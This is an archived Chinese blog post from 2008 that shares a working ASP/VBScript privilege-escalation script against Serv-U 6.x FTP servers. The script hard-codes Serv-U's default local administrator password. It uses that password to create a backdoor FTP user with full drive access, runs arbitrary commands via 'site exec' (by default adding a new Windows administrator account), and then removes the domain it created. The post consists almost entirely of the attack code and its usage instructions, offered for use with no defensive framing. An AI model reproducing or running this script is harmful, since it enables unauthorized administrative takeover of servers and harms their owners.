 ```yaml
---
title: Serv-U 6.X 提权脚本
description:  Author:落叶纷飞来源：http://www.cnsst.org/使用方法：如果是6.4以下的保持默认即可，只要按你的需要修改执行的命令即可！如果为6.4请在“服务器端口”里填21，然后再在“服务器IP”中填写服务器的真实IP。<%@LANGUAGE=VBScript%><%..............................................................................
date: 2008-02-12 11:10:05
category: 安全工具
tags: ['提权', '工具共享', '脚本Script']
post_id: 366
alias: Serv-U-6.X-promote-popedom
ViewNums: 4131
---
```


Author:落叶纷飞
来源：<http://www.cnsst.org/>
使用方法：如果是6.4以下的保持默认即可，只要按你的需要修改执行的命令即可！如果为6.4请在“服务器端口”里填21，然后再在“服务器IP”中填写服务器的真实IP。

<%@ LANGUAGE = VBScript %>
<%
Dim user, pass, port, ftpport, cmd, loginuser, loginpass, deldomain, mt, newdomain, newuser, quit
dim action
action=request("action")
if  not isnumeric(action) then response.end
user = trim(request("u"))
pass = trim(request("p"))
port = trim(request("port"))
cmd = trim(request("c"))
f=trim(request("f"))
if f="" then
f=gpath()
else
   f=left(f,2)
end if
ftpport = ffport
timeout=3

loginuser = "User " & user & vbCrLf
loginpass = "Pass " & pass & vbCrLf
deldomain = "-DELETEDOMAIN" & vbCrLf & "-IP=" & iip & vbCrLf & " PortNo=" & ftpport & vbCrLf
mt = "SITE MAINTENANCE" & vbCrLf
newdomain = "-SETDOMAIN" & vbCrLf & "-Domain=leaves|" & iip & "|" & ftpport & "|-1|1|0" & vbCrLf & "-TZOEnable=0" & vbCrLf & " TZOKey=" & vbCrLf
newuser = "-SETUSERSETUP" & vbCrLf & "-IP=0.0.0.0" & vbCrLf & "-PortNo=" & ftpport & vbCrLf & "-User=luo" & vbCrLf & "-Password=ye" & vbCrLf & _
        "-HomeDir=c:\" & vbCrLf & "-LoginMesFile=" & vbCrLf & "-Disable=0" & vbCrLf & "-RelPaths=1" & vbCrLf & _
        "-NeedSecure=0" & vbCrLf & "-HideHidden=0" & vbCrLf & "-AlwaysAllowLogin=0" & vbCrLf & "-ChangePassword=0" & vbCrLf & _
        "-QuotaEnable=0" & vbCrLf & "-MaxUsersLoginPerIP=-1" & vbCrLf & "-SpeedLimitUp=0" & vbCrLf & "-SpeedLimitDown=0" & vbCrLf & _
        "-MaxNrUsers=-1" & vbCrLf & "-IdleTimeOut=600" & vbCrLf & "-SessionTimeOut=-1" & vbCrLf & "-Expire=0" & vbCrLf & "-RatioUp=1" & vbCrLf & _
        "-RatioDown=1" & vbCrLf & "-RatiosCredit=0" & vbCrLf & "-QuotaCurrent=0" & vbCrLf & "-QuotaMaximum=0" & vbCrLf & _
        "-Maintenance=System" & vbCrLf & "-PasswordType=Regular" & vbCrLf & "-Ratios=None" & vbCrLf & " Access=c:\|RWAMELCDP" & vbCrLf
quit = "QUIT" & vbCrLf
newuser=replace(newuser,"c:",f)
select case action
case 1
    set a=Server.CreateObject("Microsoft.XMLHTTP")
    a.open "GET", "http://127.0.0.1:" & port & "/leaves/upadmin/s1",True, "", ""
    a.send loginuser & loginpass & mt & deldomain & newdomain & newuser & quit
    set session("a")=a
%>
<form method="post" name="leaves">
<input name="u" type="hidden" id="u" value="<%=user%>"></td>
<input name="p" type="hidden" id="p" value="<%=pass%>"></td>
<input name="port" type="hidden" id="port" value="<%=port%>"></td>
<input name="c" type="hidden" id="c" value="<%=cmd%>" size="50">
<input name="f" type="hidden" id="f" value="<%=f%>" size="50">
<input name="action" type="hidden" id="action" value="2"></form>
<script language="javascript">
document.write('<center>正在连接 127.0.0.1:<%=port%>,使用用户名: <%=user%>,口令：<%=pass%>...<center>');
setTimeout("document.all.leaves.submit();",4000);
</script>
<%
case 2
    set b=Server.CreateObject("Microsoft.XMLHTTP")
    b.open "GET", "http://127.0.0.1:" & ftpport & "/leaves/upadmin/s2", True, "", ""
    b.send "User luo" & vbCrLf & "pass ye" & vbCrLf & "site exec " & cmd & vbCrLf & quit
   set session("b")=b
%>
<form method="post" name="leaves">
<input name="u" type="hidden" id="u" value="<%=user%>"></td>
<input name="p" type="hidden" id="p" value="<%=pass%>"></td>
<input name="port" type="hidden" id="port" value="<%=port%>"></td>
<input name="c" type="hidden" id="c" value="<%=cmd%>" size="50">
<input name="f" type="hidden" id="f" value="<%=f%>" size="50">
<input name="action" type="hidden" id="action" value="3"></form>
<script language="javascript">
document.write('<center>正在提升权限,请等待...,<center>');
setTimeout("document.all.leaves.submit();",4000);
</script>
<%
case 3
    set c=Server.CreateObject("Microsoft.XMLHTTP")
    c.open "GET", "http://127.0.0.1:" & port & "/leaves/upadmin/s3", True, "", ""
    c.send loginuser & loginpass & mt & deldomain & quit
    set session("c")=c
%>
<center>提权完毕,已执行了命令：
<font color=red><%=cmd%></font>
<input type=button value=" 返回继续 " onClick="location.href='<%=gname()%>';">
</center>
<%
case else
on error resume next
    set a=session("a")
    set b=session("b")
    set c=session("c")
    a.abort
    Set a = Nothing
    b.abort
    Set b = Nothing
    c.abort
    Set c = Nothing
%>
<center><form method="post" name="leaves">
  <tr align="center" valign="middle">
    <td colspan="2">Serv-U 6.X 提权脚本 by 落叶纷飞【S.S.T】 @ 肇庆</td>
  </tr>
  <tr align="center" valign="middle">
    <td width="200">用户名:</td>
<td width="400"><input name="u" type="text" id="u" value="LocalAdministrator"></td>
  </tr>
  <tr align="center" valign="middle">
    <td>口　令：</td>
    <td><input name="p" type="text" id="p" value="#l@$ak#.lk;0@P"></td>
  </tr>
  <tr align="center" valign="middle">
    <td>端　口：</td>
    <td><input name="port" type="text" id="port" value="43958"></td>
服务器端口：
    <td><input name="ffport" type="text" id="ffport" value="65500"></td>
服务器IP：
    <td><input name="iip" type="text" id="iip" value="0.0.0.0"></td>
  </tr>
  <tr align="center" valign="middle">
    <td>系统路径：</td>
    <td><input name="f" type="text" id="f" value="<%=f%>" size="8"></td>
  </tr>
  <tr align="center" valign="middle">
    <td>命　令：</td>
    <td><input name="c" type="text" id="c" value="cmd /c net user leaves cnsst /add & net localgroup administrators leaves /add" size="50"></td>
  </tr>
  <tr align="center" valign="middle">
    <td colspan="2"><input type="submit" name="Submit" value="提交">
      <input type="reset" name="Submit2" value="重置">
      <input name="action" type="hidden" id="action" value="1"></td>
  </tr>
</form></center>

使用方法：如果是6.4以下的保持默认即可，只要按你的需要修改执行的命令即可！如果为6.4请在“服务器端口”里填21，然后再在“服务器IP”中填写服务器的真实IP。
<% end select
function Gpath()
on error resume next
    err.clear
    set f=Server.CreateObject("Scripting.FileSystemObject")
    if err.number>0 then
gpath="c:"
        exit function
    end if
gpath=f.GetSpecialFolder(0)
gpath=lcase(left(gpath,2))
set f=nothing
end function
Function GName()
If request.servervariables("SERVER_PORT")="80" Then
GName="http://" & request.servervariables("server_name")&lcase(request.servervariables("script_name"))
Else
GName="http://" & request.servervariables("server_name")&":"&request.servervariables("SERVER_PORT")&lcase(request.servervariables("script_name"))
End If
End Function
%>

